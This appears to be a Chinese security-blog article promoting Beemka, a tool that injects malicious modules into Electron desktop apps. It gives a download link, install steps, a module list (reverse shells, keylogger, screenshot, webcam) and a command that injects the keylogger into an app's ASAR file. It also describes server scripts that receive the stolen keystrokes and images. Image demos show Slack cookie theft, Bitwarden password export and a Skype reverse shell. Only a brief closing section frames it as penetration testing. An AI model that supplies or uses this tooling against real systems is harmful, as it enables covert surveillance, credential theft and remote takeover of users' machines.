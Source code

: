 #  针对 Electron App 的漏洞利用工具   
 Urkc安全   2024-10-06 18:00  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQm8jgLG6cJ9kzyfibwaonj9C7b6Qm5aiarjjklbgeQTVMstPBJmtuNhFg/640?wx_fmt=gif&from=appmsg "")  
  
**BEEMKA针对 Electron App 的漏洞利用工具**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbic2Kv3nLL7U86P6OSF4XDnKRjcdKaic50k6cw2y37OAic9bia4OErhKIQ/640?wx_fmt=gif&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
**项目介绍**  
  
    Beemka 是一个用于 Electron 应用程序的基本利用工具。它允许用户注入代码到 Electron 应用中，并提供了多种模块来执行不同的操作，如反向 shell、截图、键盘记录等。该项目旨在帮助安全研究人员和开发者理解和测试 Electron 应用的安全性。  
  
  
**工具下载url：**  
  
https://codeload.github.com/ctxis/beemka/zip/refs/heads/master  
  
  
**PART.****1**  
  
**BSidesLV Slack Cookie 出口演示**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQCx6d92Yh0jrTrRPBJ5n1liak37jLRpnwchzTlzVPrhlSfkgc4BMXjWQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQRenTn5T9aUvj1ibo2etnOjKErq62b4zGmwxZaqtkxRceuzNXhDNMdLw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQ8oQbvwJicRpJfyBrVd684Yq3AeqbJTD9UuB49LK49sibe9Uj76wt1Cibg/640?wx_fmt=png&from=appmsg "")  
  
  
**拿到b、x、d以及对应值去登录**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQ2Vq7RqKWbMkXCOLbOpdgtbVvhogyd6xicibIJrSIBFddwCCSu6aBq2iag/640?wx_fmt=png&from=appmsg "")  
  
**刷新进入**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQVkebQM8HEc8XQjLx5v8HD2nNSYicS0Nu7AMvd5ny4I6h3kwHBYDjYOg/640?wx_fmt=png&from=appmsg "")  
  
可参考视频  
  
https://www.youtube.com/watch?v=hRX7kT2r7LA  
  
  
  
**PART.****2**  
  
**BSidesLV VSCode 源码出口演示**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQVHnOAdF7gxOnbVntloABAxlWd2sfpghbpSCcBicXEibdDTX0R7Bxsl0Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQzkkVtLlGg2Bfjk97xic1PXH1KU5cvia263NWVHrHKJjtRP7tjOpZgteA/640?wx_fmt=png&from=appmsg "")  
  
可参考视频  
  
https://www.youtube.com/watch?v=pKWX3nelszQ  
  
  
**PART.****3**  
  
**Bitwarden 密码出口**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQ5waJ0sCgkKFhvgWNvw1ETxzcg9YL4s1via2CMklkCRZCmOPE6xKqzdA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQC9uzQjTrsHMo1ufGgaCmzefoDx5sw2ibaOaicgIbhkkbEFy41tOlQ1Ow/640?wx_fmt=png&from=appmsg "")  
  
**PART.4**  
  
**Skype 反向 Shell**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQnBicyKwbGaUjYicYfrpZ4vqXJR5LYKcr2M3JmnKY4PMph9yQRJSUDLlA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQQJ8uDJln9gXSqGdl30saECSyPyAkuuzNoq81vWfuaqleqiaYcibicegcw/640?wx_fmt=png&from=appmsg "")  
  
  
**PART.5**  
  
**Slack 桌面屏幕截图**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQ9hKHGvwF0ozrX6TQ8mXCiabJiaJBLrcfia4CMeLbnZwAdTxjsRKslQS6Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQYEpKFcEfbVDSoF8vYrlaK6WOQqNxdGPldgY2xSaiadgqQVHdHicR1NiaA/640?wx_fmt=png&from=appmsg "")  
  
  
**PART.6**  
  
**VS Code 网络摄像头**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQDdhib42iaLlUQGnTqsUJiaVv3NO0rMtTUHEPFcvfGMleNwAcaFYZWVZsQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
###   
  
**PART.7**  
  
**要求**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
###   
  
- Python 3.5+   
  
- JSMIN   
  
**PART.8**  
  
**”安装+使用“指南**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
**安装**  
```
pip3 install -r requirements.txt

```  
  
**模块**  
```
python3 beemka.py --list

Available modules

[ rshell_cmd ]          Windows Reverse Shell
[ rshell_linux ]        Linux Reverse Shell
[ screenshot ]          Screenshot Module
[ rshell_powershell ]   PowerShell Reverse Shell
[ keylogger ]           Keylogger Module
[ webcamera ]           WebCamera Module
```  
  
  
**特点**  
```
usage: Beemka Electron Exploitation [-h] [-v] [-l] [-i] [-f ASAR_FILE]
                                    [-p ASAR_WORKING_PATH] [-o OUTPUT_FILE]
                                    [-m MODULE] [-u] [-z]

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -l, --list-modules    List all available modules.
  -i, --inject          Inject code into Electron.
  -f ASAR_FILE, --asar ASAR_FILE
                        Path to electron.asar file.
  -p ASAR_WORKING_PATH, --asar-working-path ASAR_WORKING_PATH
                        Temporary working path to use for extracting asar
                        archives.
  -o OUTPUT_FILE, --output OUTPUT_FILE
                        Path to the file that will be generated.
  -m MODULE, --module MODULE
                        Module to inject. Use --list-modules to list available
                        modules.
  -u, --unpack          Unpack asar file.
  -z, --pack            Pack asar file.
```  
  
  
**将模块注入应用程序：**  
```
python3 beemka.py --inject --module keylogger --asar "PATH_TO_ELECTRON.ASAR" --output "SAVE_AS_ASAR"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
Beemka 项目没有明确的配置文件，但可以通过命令行参数进行配置。例如，可以通过 --asar 参数指定 Electron 的 ASAR 文件路径，通过 --module 参数指定要注入的模块等。  
  
eg：  
```
# 示例命令
python3 beemka.py --asar /path/to/asar/file --module rshell_cmd
```  
  
  
  
### 外泄帮手  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQR5hovFqia25swxDXHia8uGCU5qbUdUwPt2G7ZBFto7iblhgMjCJqJ8ibbA/640?wx_fmt=gif&from=appmsg "")  
  
在 ./server 目录下有以下文件：  
  
**1. text.php**  
  
此文件可用于接收 keylogger 模块发送的数据。  
  
使用前，请确保更新文件开头的 “$storage” 参数。  
  
**2. image.php**  
  
此文件可用于接收 webcamera 和 screenshot 模块发送的数据。  
  
使用前，请确保更新文件开头的 “$storage” 参数。  
  
  
  
**PART.9**  
  
**总结**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FL9Xqxpicm6oFTLANwhfWRe7OQS0UGOvQbA01GvQnm4vdzczf7WA0x89BWCfHFngB2X3eMWoDJCWOmHuyh4gn1Q/640?wx_fmt=png&from=appmsg "")  
  
  
  
**应用案例**  
  
    安全测试：Beemka 可以用于测试 Electron 应用的安全性，通过注入恶意代码来检查应用的响应和防御机制。  
  
渗透测试：渗透测试人员可以使用 Beemka 来模拟攻击，评估系统的安全性。  
  
**最佳实践**  
  
    定期更新：确保使用最新版本的 Beemka 和 Electron 应用，以避免已知的安全漏洞。  
  
    权限控制：在测试环境中使用 Beemka 时，确保有适当的权限控制，避免对生产环境造成影响。  
  
  
**典型生态项目**  
  
    Electron：Beemka 主要针对 Electron 应用进行操作，Electron 是一个使用 JavaScript、HTML 和 CSS 构建跨平台桌面应用的框架。  
  
    Node.js：Beemka 依赖于 Node.js 环境，Node.js 是一个基于 Chrome V8 引擎的 JavaScript 运行时。  
  
  
